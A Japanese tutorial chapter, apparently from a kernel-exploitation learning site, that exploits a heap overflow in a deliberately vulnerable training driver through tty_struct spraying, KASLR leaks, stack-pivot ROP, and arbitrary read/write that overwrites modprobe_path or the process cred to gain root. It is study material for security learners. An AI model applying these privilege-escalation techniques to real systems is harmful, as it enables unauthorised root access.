



前章ではHolsteinモジュールのStack Overflowを悪用して権限昇格をしました。Holsteinモジュールの開発者はすぐさま脆弱性を修正し、Holstein v2を公開しました。本章では、改善されたHolsteinモジュールv2をexploitしていきます。

## パッチの解析と脆弱性の調査
まずは[Holstein v2](distfiles/LK01-2.tar.gz)をダウンロードしてください。
srcディレクトリにあるソースコードを確認すると、前回との差分は`module_read`と`module_write`の2箇所だけだと分かります。
```c
static ssize_t module_read(struct file *file,
                           char __user *buf, size_t count,
                           loff_t *f_pos)
{
  printk(KERN_INFO "module_read called\n");

  if (copy_to_user(buf, g_buf, count)) {
    printk(KERN_INFO "copy_to_user failed\n");
    return -EINVAL;
  }

  return count;
}

static ssize_t module_write(struct file *file,
                            const char __user *buf, size_t count,
                            loff_t *f_pos)
{
  printk(KERN_INFO "module_write called\n");

  if (copy_from_user(g_buf, buf, count)) {
    printk(KERN_INFO "copy_from_user failed\n");
    return -EINVAL;
  }

  return count;
}
```
スタック変数を使わなくなった代わりに、`g_buf`の値を直接読み書き可能になりました。もちろん、相変わらずサイズチェックがないのでオーバーフローが存在します。今回の脆弱性はヒープオーバーフローとなります。
`g_buf`は`module_open`で確保されていました。
```c
g_buf = kmalloc(BUFFER_SIZE, GFP_KERNEL);
```
`BUFFER_SIZE`は0x400です。それ以上の値を書き込むとどうなるか、試してみましょう。
```c
int main() {
  int fd = open("/dev/holstein", O_RDWR);
  if (fd == -1)
    fatal("/dev/holstein");

  char buf[0x500];
  memset(buf, 'A', 0x500);
  write(fd, buf, 0x500);

  close(fd);
  return 0;
}
```
実際にプログラムを動かしても、次のように何も発生しないかと思います。

<center>
  
</center>

そもそもLinux Kernelのヒープはどのような仕組みになっているのでしょうか。

## スラブアロケータ
カーネルでもユーザー空間同様に、ページサイズより小さい領域を動的に確保したい場合があります。最も簡単なアロケータはmmapのようにページサイズ単位で切り出す方法ですが、不要な領域が多くメモリリソースが無駄です。
ユーザー空間におけるmallocと同様に、カーネル空間にもkmallocが用意されています。これはカーネルに搭載されたアロケータを利用するのですが、主にSLAB, SLUB, SLOBのいずれかが使われています。3種類は完全に独立はしておらず、実装上共通の部分もあります。これら3つをまとめてスラブアロケータ（Slab allocator）と呼びます。表記上はSlabとSLABの差なので紛らわしいですね。

これから各アロケータの実装を説明しますが、あくまでexploitで重要な箇所だけを抑えます。ユーザー空間のメモリアロケータ同様、exploitで重要になるのは次の点です。

- 確保するサイズに応じてチャンクがどこから切り出されるか
- 解放したオブジェクトがどのように管理され、後の確保で再利用されるか

この2点を中心に各アロケータの実装を見ていきましょう。

### SLABアロケータ
SLABアロケータは、歴史的に最も古いタイプのアロケータです。Solarisなどで主に使われています。
主要な実装は[/mm/slab.c](https://elixir.bootlin.com/linux/v5.15/source/mm/slab.c)で定義されています。

SLABには次のような特徴があります。

- **サイズに応じたページフレームの使い分け**
  libcのメモリアロケータとは違い、サイズ帯に応じて異なるページが確保されます。そのためチャンクの前後にはサイズ情報はありません。
- **キャッシュの利用**
  小さいサイズについてはサイズ帯ごとのキャッシュが優先的に使われます。サイズが大きい場合やキャッシュが空の場合は通常の確保が使われます。
- **ビットマップ（index）を使った解放領域の管理**
  サイズ帯に応じてページフレームが変わるため、ページ先頭に「そのページの中で特定のindexの領域が解放されているか」を表すビット配列があります。libcのmallocと違い、linked listでは管理していません。

まとめると、解放領域は次のようにページフレームごとにインデクスで管理されます。

<center>
  
</center>

なお、実際にはキャッシュとしてエントリがいくつか存在し、そこに記載された解放済み領域のポインタが優先して使われます。
その他、`__kmem_cache_create`というキャッシュ生成時のフラグによって次のような機能があります。

- `SLAB_POISON`: 解放された領域は0xA5で埋められます。
- `SLAB_RED_ZONE`: オブジェクトの後ろにredzoneという領域が付加され、Heap Overflowなどで書き換えられると検知されます。

### SLUBアロケータ
SLUBアロケータは、現在デフォルトで使われているアロケータで、巨大なシステム向けです。なるべく高速になるよう設計されています。
主要な実装は[/mm/slub.c](https://elixir.bootlin.com/linux/v5.15/source/mm/slub.c)で定義されています。

SLUBには次のような特徴があります。

- **サイズに応じたページフレームの使い分け**
  SLAB同様にサイズ帯に応じて使われるページフレームが変わります。例えば100バイトならkmalloc-128, 200バイトならkmalloc-256といったように専用の領域が使われます。SLABと異なりページフレームの先頭にメタデータ（解放領域のインデクスなど）はありません。freelistの先頭のポインタなどはページフレームディスクリプタに記載されています。
- **片方向リストを利用した解放領域の管理**
  SLUBはlibcのtcacheやfastbinのように、片方向リストで解放領域を管理します。解放された領域の先頭には前に解放された領域へのポインタが書き込まれ、最後に解放された領域のリンクはNULLになります。tcacheやfastbinのような、リンクの書き換えをチェックするセキュリティ機構は特にありません。
- **キャシュの利用**
  SLAB同様にCPUごとのキャッシュがありますが、こちらもSLUBでは片方向リストになっています。

まとめると、解放領域は次のように片方向リストで管理されます。

<center>
  
</center>

SLUBではカーネル起動時の`slub_debug`パラメータに文字を与えることでデバッグ用の機能を有効化できます。

- F: sanity checkを有効化します。
- P: 解放済み領域を特定のビット列で埋めます。
- U: 確保と解放のスタックトレースを記録します。
- T: 特定のスラブキャッシュの使用ログを取ります。
- Z: オブジェクトの後ろにredzoneを追加し、Heap Overflowを検知します。

本章を含め、以降も攻撃対象のカーネルでは基本的にSLUBが使われています。しかし、すべてのプログラムがヒープを共有している以上、freelistを破壊するような攻撃は現実的にあまり成立しませんので、このサイトでは扱いません。今後学ぶ攻撃手法のほとんどが他のアロケータにも通用します。

### SLOBアロケータ
SLOBアロケータは、組み込みシステム向けのアロケータです。なるべく軽量になるよう設計されています。
主要な実装は[/mm/slob.c](https://elixir.bootlin.com/linux/v5.15/source/mm/slob.c)で定義されています。

SLOBアロケータには次のような特徴があります。

- **K&Rアロケータ**
  いわゆるglibc mallocのような、サイズに依存せず使える領域を先頭から切り出していく方式です。領域が足りなくなったら新しいページを確保します。そのため非常に断片化が起きやすいです。
- **オフセットによる解放領域の管理**
  glibcではtcacheやfastbinのように解放領域をサイズごとにリストで管理しています。一方SLOBでは、サイズに関係なくすべての解放領域が順に繋がります。また、リストはポインタを持つのではなく、そのチャンクのサイズと次の解放領域へのオフセット情報を持ちます。これらの情報は解放済み領域の先頭に書き込まれます。確保する際にはこのリストを辿り、使えるサイズを見つけたら利用します。
- **サイズに応じたfreelist**
  断片化を抑えるため、freeしたオブジェクトをサイズごとに繋げるリストがいくつか存在します。

まとめると、解放領域は次のようにサイズとオフセットによる片方向リストで管理されます。（解放済み領域から出る矢印はポインタではなく、オフセット情報になっています。）

<center>
  
</center>

## Heap Overflowの悪用
SLUBではサイズごとにページを使い分け、また片方向リストで解放済み領域を管理することを学びました。

[導入](../introduction/introduction.html)の章でも説明しましたが、カーネルのヒープは全ドライバおよびカーネルで共有されています。したがって、1つのドライバの脆弱性を使ってカーネル空間の別のオブジェクトを破壊可能です。今回の脆弱性はHeap Overflowなので、悪用するにはオーバーフローする領域の後ろに、何かしら破壊したいオブジェクトが存在する必要があります。
Exploitに慣れている方ならすぐ思いつくでしょうが、そのためにはHeap Sprayが便利です。ここでは、Heap Sprayは次の2つの目的で使えます。

1. 既に存在するfreelistを使い果たす
   freelistからオブジェクトが確保されてしまうと、破壊したいオブジェクトが隣り合う保証がありません。そのため、対象のサイズ帯のfreelistをあらかじめ消費する必要があります。
2. オブジェクトを隣り合わせる
   freelistを消費した時点でオブジェクトが隣り合う可能性は高いですが、アロケータによってはページを前から消費していくか後ろから消費していくか分からないので、とにかくHeap Overflowのあるオブジェクトの前後を破壊したいオブジェクトで埋めます。

次に問題になるのがオブジェクトのサイズです。あらためてHolsteinのソースコードを見ると、確保されるバッファのサイズは0x400であることが分かります。
```c
#define BUFFER_SIZE 0x400
```
0x400はkmalloc-1024に相当します。（システムのslabの情報は`/proc/slabinfo`から見られます。）
したがって、破壊できるオブジェクトも基本的にはサイズ0x400のものになります。攻撃の観点から[使えるオブジェクトをサイズごとにまとめた記事](https://ptr-yudai.hatenablog.com/entry/2020/03/16/165628)を以前書いたので、そちらを参照してください。[^1]

今回のkmalloc-1024では`tty_struct`という構造体が使えそうです。`tty_struct`は[`tty.h`](https://elixir.bootlin.com/linux/v5.15/source/include/linux/tty.h#L143)で定義されており、TTYに関する状態を保持するための構造体です。この構造体のサイズはkmalloc-1024に相当するため、今回の脆弱性で範囲外読み書きができます。構造体のメンバを見てみましょう。
```c
struct tty_struct {
	int	magic;
	struct kref kref;
	struct device *dev;	/* class device or NULL (e.g. ptys, serdev) */
	struct tty_driver *driver;
	const struct tty_operations *ops;
	int index;
    ...
```
ここで`tty_operations`は、そのTTYに対する操作を定義する関数テーブルになっています。
次のようにプログラムから`/dev/ptmx`を開くことでカーネル空間に`tty_struct`が確保されます。
```c
int ptmx = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
```
これに対して`read`, `write`や`ioctl`等の操作を呼び出すと、`tty_operations`に記載された関数ポインタが呼ばれます。

## ROPによるExploit
必要な知識はすべて揃ったので、権限昇格するexploitを書いていきましょう。

### ヒープオーバーフローの確認
まずはgdbを使ってヒープオーバーフローが起きていることを確認しましょう。同時にHeap Sprayも確認するため、次のようなコードを書きました。
```c
int main() {
  int spray[100];
  for (int i = 0; i < 50; i++) {
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    if (spray[i] == -1)
      fatal("/dev/ptmx");
  }

  // 周囲にtty_structがある位置に確保させる
  int fd = open("/dev/holstein", O_RDWR);
  if (fd == -1)
    fatal("/dev/holstein");

  for (int i = 50; i < 100; i++) {
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    if (spray[i] == -1)
      fatal("/dev/ptmx");
  }

  // Heap Buffer Overflow
  char buf[0x500];
  memset(buf, 'A', 0x500);
  write(fd, buf, 0x500);

  getchar(); // 止める

  close(fd);
  return 0;
}
```
いつもどおりKASLRを切って`/proc/modules`を確認し、gdbでアタッチして`write`ハンドラのあたりでブレークポイントを付けてみましょう。`g_buf`のアドレスを知りたいので以下の命令の直後にブレークポイントを付けてみました。

<center>
  
</center>

ブレークポイントでバッファとその周辺を確認すると、次のように似た構造のオブジェクトが周囲に存在することが分かります。

<center>
  
</center>

これこそsprayした`tty_struct`構造体で、今回はこのオブジェクトをHeap Buffer Overflowで破壊することにより、権限昇格するexploitを書きます。Heap Overflowが発生した後の様子を見ると、次のように`g_buf`の直後にある`tty_struct`が破壊されていることが分かります。

<center>
  
</center>

### KASLRの回避
Holstein v1ではセキュリティ機構を1つずつ回避していきましたが、今回は一気にすべてのセキュリティ機構（KASLR, SMAP, SMEP, KPTI）を回避しましょう。（当然デバッグの際はKASLRを無効にしてください。）

さて、今回のHeap Buffer Overflowは書き込みだけでなく読み込みもできるため、`tty_struct`を読むことでKASLRの回避が可能です。例えば`tty_struct`を確認したときの図で、先頭から0x18バイトにあるポインタ（`ops`）は明らかにカーネル空間のアドレスなので、ここからベースアドレスが計算できます。
```c
#define ofs_tty_ops 0xc38880
unsigned long kbase;
...
  // KASLRの回避
  char buf[0x500];
  read(fd, buf, 0x500);
  kbase = *(unsigned long*)&buf[0x418] - ofs_tty_ops;
  printf("[+] kbase = 0x%016lx\n", kbase);
```

### SMAPの回避：RIPの制御
カーネルのベースアドレスが分かり、`ops`という関数テーブルを書き換えればRIPも制御できそうです。しかし、実際にはそう簡単ではありません。`ops`は関数ポインタではなく関数テーブルなので、RIPを制御するためには偽の関数テーブルを指す必要があります。
もしSMAPが無効ならユーザー空間に偽の関数テーブルを用意して、そのポインタを`ops`に書き込めば成功します。しかし、今回SMAPが有効なのでユーザー空間のデータは参照できません。

ではどのようにSMAPを回避するのでしょうか？
我々がカーネル空間にデータを書き込めるのはヒープですので、ヒープのアドレスをリークする必要があります。gdbで`tty_struct`を見てみると、いくつかヒープのアドレスらしきポインタが確認できます。

<center>
  
</center>

特にオフセット0x38あたりのポインタは、まさにこの`tty_struct`の中を指しています[^2]。このポインタから`tty_struct`のアドレスや、そこから0x400を引けば`g_buf`のアドレスが計算できます。`g_buf`の内容は操作可能なので、ここに関数テーブル`ops`を設置して、Heap Overflowで`ops`を書き換えます。
書き換えられた`tty_struct`に対して適当な操作をすればRIPが制御できますが、どの`tty_struct`か分からないのでsprayしたすべてのFDに操作をしましょう。また、呼び出される関数ポインタの位置が分からないので、適当な関数テーブルを作り、呼び出される関数ポインタの位置をクラッシュメッセージから特定します。
```c
  // g_bufのアドレスリーク
  g_buf = *(unsigned long*)&buf[0x438] - 0x438;
  printf("[+] g_buf = 0x%016lx\n", g_buf);

  // 偽関数テーブルの書き込み
  unsigned long *p = (unsigned long*)&buf;
  for (int i = 0; i < 0x40; i++) {
    *p++ = 0xffffffffdead0000 + (i << 8);
  }
  *(unsigned long*)&buf[0x418] = g_buf;
  write(fd, buf, 0x420);

  // RIPの制御
  for (int i = 0; i < 100; i++) {
    ioctl(spray[i], 0xdeadbeef, 0xcafebabe);
  }
```
次のようにRIPが取れていれば成功です。

<center>
  
</center>

また、今回は`ioctl`を使いましたが、0xffffffffdead0c00でクラッシュしているので、`ioctl`に対応する関数ポインタは0xC(=12)番目にあることも分かりました。

### SMEPの回避：Stack Pivot
前回Stack Overflowの時と同様に、RIPが取れたらROPでSMEPが回避できます。SMEPが無い場合は当然ret2usrで良いですが、SMEPを回避するだけなら例えば次のようなgadgetが使えます。
```
0xffffffff81516264: mov esp, 0x39000000; ret;
```
あらかじめユーザー空間の0x39000000をmmapで確保してROP chainを書き込んでおき、上記gadgetを呼び出すとstack pivotとしてユーザー空間に設置したROP chainが走ります。
しかし今回はSMAPが有効なのでユーザー空間に置いたROP chainは実行できません。幸いにも制御可能なカーネル空間（ヒープ）のアドレスを知っているので、偽の関数テーブルと一緒にヒープ上にROP chainを書き込んで、それを実行させましょう。

ヒープ上のROP chainを実行するにはスタックポインタrspをヒープのアドレスに持ってくる必要があります。先程例で
```c
ioctl(spray[i], 0xdeadbeef, 0xcafebabe);
```
を実行しましたが、このときのクラッシュメッセージを見直してみると、次のように`ioctl`の引数が一部レジスタに入っていることが分かります。
```
RCX: 00000000deadbeef
RDX: 00000000cafebabe
RSI: 00000000deadbeef
R08: 00000000cafebabe
R12: 00000000deadbeef
R14: 00000000cafebabe
```
つまり、`ioctl`の引数にROP chainのアドレスを渡し、`mov rsp, rcx; ret;`のようなgadgetを呼べばROPできると分かります。

<div class="balloon_l">
  <div class="faceicon"></div>
  <p class="says">
    <code>write</code>や<code>read</code>の引数は、バッファのアドレスがユーザーランドの範囲か確認されたり、サイズが大きすぎるとハンドラが呼ばれなかったりして、カーネルヒープへのstack pivotには使えないことが多いよ。
  </p>
</div>

いくらカーネルとはいえ`mov rsp, rcx; ret;`のような愚直なgadgetは見つかりにくいですが、`push rcx; ...; pop rsp; ...; ret;`のようなgadgetは高確率で存在するので、この形を探すと見つかりやすいかもしれません。今回は次のgadgetを使います。
```
0xffffffff813a478a: push rdx; mov ebp, 0x415bffd9; pop rsp; pop r13; pop rbp; ret;
```
ひとまずROP chainに到達しているかを確認しましょう。以下の例ではROP chainの0xffffffffdeadbeefでクラッシュすれば成功です。
```c
  // 偽関数テーブルの書き込み
  unsigned long *p = (unsigned long*)&buf;
  p[12] = rop_push_rdx_mov_ebp_415bffd9h_pop_rsp_r13_rbp;
  *(unsigned long*)&buf[0x418] = g_buf;

  // ROP chainの用意
  p[0] = 0xffffffffdeadbeef;

  // Heap Buffer Overflow
  write(fd, buf, 0x420);

  // RIPの制御
  for (int i = 0; i < 100; i++) {
    ioctl(spray[i], 0xdeadbeef, g_buf - 0x10); // r13, rbpの分を引いた
  }
```

### 権限昇格
さて、あとはROPをするだけなのですが、今`p[12]`は関数ポインタに使ってしまっているので、そこだけpopなどでスキップしてあげましょう。あるいは、関数テーブルを`ops`の後ろに持ってきて`g_buf`はROP chain専用にするなどでも構いません。

自分の好きな方法でROPを書いてみましょう。ROPが正しく動けば、KASLR,SMAP,SMEP,KPTIすべて有効でも権限昇格できるはずです。
exploitの例は[ここ](exploit/heapbof-krop.c)からダウンロードできます。

<center>
  
</center>

## AAR/AAWによるExploit
先程の例では`push rdx; mov ebp, 0x415bffd9; pop rsp; pop r13; pop rbp; ret;`というstack pivotのgadgetを利用しました。自分でgadgetを探した人も、比較的複雑なgadgetしか見つからなかったかと思います。今回のように1回のRIP制御でstack pivotができるgadgetが必ず存在するとは限りません。stack pivotが出来ない場合はどうすれば良いでしょうか。

このような状況でも、高い確率で見つかるgadgetを利用して安定したexploitを書く[手法](https://pr0cf5.github.io/ctf/2020/03/09/the-plight-of-tty-in-the-linux-kernel.html)があります。あらためてRIPを制御した際のレジスタの様子を見てみます。
```
ioctl(spray[i], 0xdeadbeef, 0xcafebabe);

RCX: 00000000deadbeef
RDX: 00000000cafebabe
RSI: 00000000deadbeef
R08: 00000000cafebabe
R12: 00000000deadbeef
R14: 00000000cafebabe
```
今回は関数ポインタの書き換え、すなわち`call`命令でRIPを制御しているため、`ret`で終わる命令にジャンプすれば問題なく`ioctl`の処理が終了してユーザーランドに戻ってきます。では、次のようなgadgetを呼び出すと何ができるでしょうか。
```
0xffffffff810477f7: mov [rdx], rcx; ret;
```
今rdxもecxも制御可能なので、このgadgetを呼び出せば任意のアドレスに任意の4バイトの値を書き込むことができます。このようなmov gadgetはかなり高い確率で存在します。つまり、関数ポインタによるRIP制御ができる状況ではAAW primitiveが作れるのです。
では、次のgadgetの場合はどうでしょうか。
```
0xffffffff8118a285: mov eax, [rdx]; ret;
```
この場合、任意のアドレスに書かれた4バイトの値を`ioctl`の戻り値として得られます。（`ioctl`の戻り値はint型なので1度に4バイトまで取得可能。）AAR primitiveも作れることが分かりました。

では、カーネル空間で任意アドレス読み書きがあるとき、何ができるのでしょうか？

### modprobe\_pathとcore\_pattern
Linuxカーネルに何かしらの処理の依頼があったとき、カーネルからユーザー空間のプログラムを起動させたいことがあります。このようなとき、Linuxでは[`call_usermodehelper`](https://elixir.bootlin.com/linux/v5.15/source/kernel/umh.c#L474)という関数が使われます。`call_usermodehelper`が使われる処理はいくつかありますが、ユーザー空間から特権なしで呼び出せる代表的なパスとして、`modprobe_path`と`core_pattern`があります。

[`modprobe_path`](https://elixir.bootlin.com/linux/v5.15/source/kernel/kmod.c#L61)は[`__request_module`](https://elixir.bootlin.com/linux/v5.15/source/kernel/kmod.c#L170)という関数から呼び出されるコマンド文字列で、書き換え可能領域に存在します。
Linuxには実行ファイル形式が複数共存しており、実行権限のあるファイルが実行されるとファイルの先頭のバイト列などから形式を判別します。標準ではELFファイルとshebangが登録されているのですが、このように登録されている形式にマッチしない不明な実行ファイルが呼び出されようとしたとき、`__request_module`が使われます。`modprobe_path`には標準で`/sbin/modprobe`が書かれており、これを書き換えた上で不正な形式の実行ファイルを起動しようとすると、任意のコマンドが実行できます。

同様にカーネルから実行されるコマンドに[`core_pattern`](https://elixir.bootlin.com/linux/v5.15/source/fs/coredump.c#L57)があります。`core_pattern`は、ユーザー空間のプログラムがクラッシュした時に[`do_coredump`](https://elixir.bootlin.com/linux/v5.15/source/fs/coredump.c#L577)から呼び出されるコマンド文字列です。正確には`core_pattern`の文字列がパイプ文字`|`から始まる際に、続くコマンドが起動します。例えばUbuntu 20.04では標準で次のようなコマンドが使われます。
```
|/usr/share/apport/apport %p %s %c %d %P %E
```
コマンドが設定されていない場合は、単に`core`という文字列が入っています。（これがコアダンプの名前になります。）`core_pattern`をAAWで書き換えれば、ユーザー空間のプログラムがクラッシュした際に特権で外部プログラムを呼び出せるため、わざとクラッシュするプログラムを実行すれば権限昇格できます。

<div class="balloon_l">
  <div class="faceicon"></div>
  <p class="says">
    変数のアドレスはFGKASLRの影響を受けないから、FGKASLRが有効な場合でも使えそうだね。
  </p>
</div>

今回は、`modprobe_path`を書き換えることで権限昇格してみましょう。まず`modprobe_path`の場所を探す必要がありますが、シンボル情報がある場合はkallsyms等から見つけてください。今回のカーネルではシンボル情報を残していないので自分で特定する必要があります。`core_pattern`のときも同様ですが、vmlinuxから文字列を見つける方法が最も簡単でしょう。[^3]
```
$ python
>>> from ptrlib import ELF
>>> kernel = ELF("./vmlinux")
>>> hex(next(kernel.search("/sbin/modprobe\0")))
0xffffffff81e38180
```
gdbで確認すると、確かに`/sbin/modprobe`が存在することが分かります。
```
pwndbg> x/1s 0xffffffff81e38180
0xffffffff81e38180:     "/sbin/modprobe"
```
アドレスが分かったのでAAWで書き換えてみましょう。安定したAAR/AAWがあるときは関数として呼び出せるようにexploitを設計すると便利です。
```c
void AAW32(unsigned long addr, unsigned int val) {
  unsigned long *p = (unsigned long*)&buf;
  p[12] = rop_mov_prdx_rcx;
  *(unsigned long*)&buf[0x418] = g_buf;
  write(fd, buf, 0x420);

  // mov [rdx], rcx; ret;
  for (int i = 0; i < 100; i++) {
    ioctl(spray[i], val /* rcx */, addr /* rdx */);
  }
}
...
  char cmd[] = "/tmp/evil.sh";
  for (int i = 0; i < sizeof(cmd); i += 4) {
    AAW32(addr_modprobe_path + i, *(unsigned int*)&cmd[i]);
  }
```
上の例では、不明な形式の実行ファイルが実行されようとした際に`/tmp/evil.sh`が呼ばれることになります。したがって、`/tmp/evil.sh`には実行したい処理を書きます。今回は次のスクリプトを用意しました。
```sh
#!/bin/sh
chmod -R 777 /root
```
最後に適当な実行ファイルを用意して実行すれば完了です。
```c
  system("echo -e '#!/bin/sh\nchmod -R 777 /root' > /tmp/evil.sh");
  system("chmod +x /tmp/evil.sh");
  system("echo -e '\xde\xad\xbe\xef' > /tmp/pwn");
  system("chmod +x /tmp/pwn");
  system("/tmp/pwn"); // modprobe_pathの呼び出し
```
exploitが成功すると、任意のコマンドがroot権限で実行できたことが分かります。

<center>
  
</center>

このexploitは[ここ](exploit/heapbof-aaw.c)からダウンロードできます。

### cred構造体
[前章](stack_overflow.html)で説明したように、プロセスの権限は`cred`構造体で管理されています。`cred`構造体にはそのプロセスの実効ユーザーIDなどが記載されているため、自分のプロセスの`cred`構造体の各種IDをroot（=0）に書き換えれば権限昇格できます。では、どのようにして自プロセスの`cred`構造体のアドレスを取得するのでしょうか。

古いLinuxカーネルの場合、`current_task`というグローバルなシンボルがあり、ここに現在のコンテキストのプロセスの`task_struct`構造体へのポインタが記載されていました。そのため、AAR/AAWを持っているときは`task_struct`から`cred`を辿り、簡単に権限昇格できたのです。
しかし、最近のバージョンでは`current_task`はグローバルな変数としては廃止され、代わりにCPUごとの空間に保存されており、gsレジスタを使ってアクセスするようになっています。そのためプロセスの`cred`構造体を直接見つけることはできないのですが、AARを持っている時は比較的簡単に実現できます。カーネルのヒープ領域はそこまで広くないため、Kernel Exploitではヒープを全探索して`cred`構造体を見つけられます。今回ヒープのアドレスを既に知っているためこれが実現可能です。つまり、次のようなコードで権限昇格ができます。（今回は`ioctl`で1度に最大4バイト読めるので、4バイトごと調べています。）
```c
for (u64 p = heap_address; ; p += 4) {
  u32 leak = AAR_32bit(p); // AAR
  if (looks_like_cred(leak)) { // cred構造体っぽい
    memcpy(p + XXX, 0, YYY); // 実効UIDの書き換え
  }
}
```
問題はどのようにして自分のプロセスのcred構造体を見つけるかです。ここで[**task_struct構造体**](https://elixir.bootlin.com/linux/v5.15/source/include/linux/sched.h#L723)のメンバを再び見てみます。
```c
struct task_struct {
    ...
	/* Process credentials: */

	/* Tracer's credentials at attach: */
	const struct cred __rcu		*ptracer_cred;

	/* Objective and real subjective task credentials (COW): */
	const struct cred __rcu		*real_cred;

	/* Effective (overridable) subjective task credentials (COW): */
	const struct cred __rcu		*cred;

#ifdef CONFIG_KEYS
	/* Cached requested key. */
	struct key			*cached_requested_key;
#endif

	/*
	 * executable name, excluding path.
	 *
	 * - normally initialized setup_new_exec()
	 * - access it with [gs]et_task_comm()
	 * - lock it with task_lock()
	 */
	char				comm[TASK_COMM_LEN];

    ...
}
```
注目して欲しいのは`comm`という変数です。ここにはプロセスの実行ファイルの名前が最大16バイト保存されます。この値は`prctl`の`PR_SET_NAME`フラグで変更できます。
```
PR_SET_NAME (since Linux 2.6.9)
    Set  the name of the calling thread, using the value in the location pointed to by (char *) arg2.  The name can be up to 16 bytes long, including the terminating null byte.  (If the
    length of the string, including the terminating null byte, exceeds 16 bytes, the string is silently truncated.)  This is the same attribute that can be set via pthread_setname_np(3)
    and retrieved using pthread_getname_np(3).  The attribute is likewise accessible via /proc/self/task/[tid]/comm, where tid is the name of the calling thread.
```
したがって、カーネル中になさそうな文字列を`comm`に設定し、それをAARで探せば良い訳です。`task_struct`構造体の定義を見ると`comm`の前に`cred`構造体へのポインタがあるので、ここから自分のプロセスの権限情報を書き換えられます。

<div class="balloon_l">
  <div class="faceicon"></div>
  <p class="says">
    この方法はAAR/AAWさえ持っていればROP gadgetや関数のオフセットに依存しないexploitが書けるから、いろんな環境で安定して動くexploitを書きたい場合には便利だね。
  </p>
</div>

原理が分かったところで、実際にこの手法で権限昇格を実装してみましょう。AARは愚直に実装しても構いませんが、今回のように大量に呼び出す際に毎回sprayした`tty_struct`のすべてを試すのは時間がかかるので、初回呼び出しでfdをキャッシュするようにしました。また、ROP gadgetを書き込む`write`も初回だけで良いので、2回目以降は呼び出さないことで大幅にexploitを高速化できます。
```c
int cache_fd = -1;

unsigned int AAR32(unsigned long addr) {
  if (cache_fd == -1) {
    unsigned long *p = (unsigned long*)&buf;
    p[12] = rop_mov_eax_prdx;
    *(unsigned long*)&buf[0x418] = g_buf;
    write(fd, buf, 0x420);
  }

  // mov eax, [rdx]; ret;
  if (cache_fd == -1) {
    for (int i = 0; i < 100; i++) {
      int v = ioctl(spray[i], 0, addr /* rdx */);
      if (v != -1) {
        cache_fd = spray[i];
        return v;
      }
    }
  } else {
    return ioctl(cache_fd, 0, addr /* rdx */);
  }
}
```
次に、`task_struct`がヒープ上のどこに存在するか分からないので、`g_buf`のアドレスよりもかなり前から探索するようにしましょう。gdbで確認したところ0x200000程度前に存在しましたが、環境やヒープの使用状況により異なるため幅は大きく持たせます。
```c
  // task_structの探索
  if (prctl(PR_SET_NAME, "nekomaru") != 0)
    fatal("prctl");
  unsigned long addr;
  for (addr = g_buf - 0x1000000; ; addr += 0x8) {
    if ((addr & 0xfffff) == 0)
      printf("searching... 0x%016lx\n", addr);

    if (AAR32(addr) == 0x6f6b656e
        && AAR32(addr+4) == 0x7572616d) {
      printf("[+] Found 'comm' at 0x%016lx\n", addr);
      break;
    }
  }
```
`comm`の場所が分かったら、直前の`cred`を書き換えましょう。
```c
  unsigned long addr_cred = 0;
  addr_cred |= AAR32(addr - 8);
  addr_cred |= (unsigned long)AAR32(addr - 4) << 32;
  printf("[+] current->cred = 0x%016lx\n", addr_cred);

  // 実効IDの上書き
  for (int i = 1; i < 9; i++) {
    AAW32(addr_cred + i*4, 0); // id=0(root)
  }

  puts("[+] pwned!");
  system("/bin/sh");
```
次のように権限昇格できていれば成功です。

<center>
  
</center>

この章ではカーネル空間におけるHeap Overflow脆弱性の攻撃方法を学びました。実は、ここまでの知識があればほとんどの脆弱性を攻撃できます。次章ではカーネル空間でのUse-after-Freeを扱いますが、たいていの脆弱性は最終的にkROPやAAR/AAWに着地するため、やることはほとんど同じです。

[^1]: オブジェクトのサイズはカーネルのバージョンによって変わる可能性があるので注意しましょう。
[^2]: これはLinuxが提供する双方向リストのポインタです。mutexなどを利用すると作られるためカーネル中の多くのオブジェクトに存在し、ヒープアドレスリークに役立ちます。
